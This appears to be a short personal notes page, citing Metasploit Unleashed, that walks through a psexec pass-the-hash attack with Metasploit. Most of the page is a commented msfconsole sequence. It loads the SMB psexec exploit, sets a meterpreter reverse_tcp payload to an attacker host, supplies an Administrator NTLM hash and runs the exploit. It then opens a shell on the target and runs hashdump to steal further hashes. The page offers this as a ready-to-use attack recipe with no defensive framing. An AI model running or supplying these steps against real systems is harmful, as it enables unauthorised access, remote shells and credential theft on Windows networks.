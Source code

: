 ```yaml
---
title: "psexec pass the hash"
# search:
#   exclude: true

hide:
#   - navigation
  - toc
  #- footer
---
```


source <https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/>

assuming that you already have the NTLM `username:ntlm-hash`, you can then run the reverse tcp shell

```bash
# start metasploit meterpreter  
msfconsole

# search for the windows smb `psexec` exploit
msf > search psexec

# "load" the exploit to use  
msf > use exploit/windows/smb/psexec

# list the available configuration options to `set` for the exploit  
msf exploit(psexec) > show options

# using the `psexec` exploit, we will send the `reverse_tcp` shell payload
msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp

# set the LocalHost for the reverse shell connect to
msf exploit(psexec) > set LHOST 192.XXXXX

# set the LocalPort for the reverse shell connect to
msf exploit(psexec) > set LPORT 443

# set the RemoteHost (the target) that we are going to run the exploit and payload against to
msf exploit(psexec) > set RHOST 192.XXXXXX

# why not?! list all configuration options to see if we are happy with it
msf exploit(psexec) > show options

# set the username 
msf exploit(psexec) > set SMBUser Administrator

# set the SMBPassword, the NTLM that we have
msf exploit(psexec) > set SMBPass 00000000000000000000000000000000:8846f7eaee8fb117ad06bdd830b7586c


# run `exploit` to execute the exploit AND the payload
msf exploit(psexec) > exploit
```

If the above executes successfully, you can then drop "into" into a shell on the remote host  
meterpreter > `shell`

you can also run `hasdump` to dump any additional NTLM hash  
meterpreter > `run post/windows/gather/hashdump`
